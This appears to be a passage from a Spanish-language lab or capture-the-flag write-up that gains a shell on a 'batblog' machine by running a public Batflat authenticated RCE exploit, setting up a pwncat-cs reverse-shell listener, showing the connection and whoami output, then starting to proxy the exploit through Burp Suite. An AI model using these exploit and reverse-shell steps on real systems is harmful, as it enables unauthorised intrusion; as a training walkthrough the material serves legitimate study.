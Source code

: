# Remote Command Execution -> Foothold
## Stored XSS + Code Injection
Ahora vamos a probar [este PoC](https://www.exploit-db.com/exploits/49573), nos lo guardamos en un archivo llamado `pwn.py` para ver si efectivamente conseguimos ejecución remota de comandos.

Si nos ponemos escucha con `pwncat-cs` por el puerto 443.
```console
sudo ./pwncat-cs -lp 443
```

Y lanzamos el exploit.
```console
python3 pwn.py http://batblog.bsh/ admin 4dm1n 10.0.0.2 443
###########################################################
#######    Batflat authenticated RCE by mari0x00    #######
###########################################################

[+] Attempting user login
[+] Retrieving the token
[+] Token ID: 5a9f40a6fe8e
[+] Getting the add-user endpoint URL
[+] Adding pwnd user

[+] Triggering the shell. Go nuts!
```

Vemos que nos llega una conexión y efectivamente, ganamos acceso a la máquina víctima.
```console
[14:29:15] received connection from 10.10.10.3:44080                                                                                                                                                                            bind.py:84
[14:29:26] 10.10.10.3:44080: registered new host w/ db                                                                                                                                                                      manager.py:957
(local) pwncat$
(remote) www-data@batblog:/var/www/html/batflat/admin$ whoami
www-data
```

Ahora bien, no somos unos lammers y queremos saber porque pasa esto, nada es magia.

Para ello podemos analizar el código y ver las peticiones que ocurren por detrás.
Vamos a modificar nuestro `pwn.py` creando un objeto `proxies` para asignar a nuestro `burpsuite` que está en escucha por el puerto 8080.
```python
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}
```

Ahora, como el creador del PoC decidió utilizar sesiones, es muy fácil asignar estos proxies, simplemente los asignamos al atributo `proxies` del objeto de la sesión.
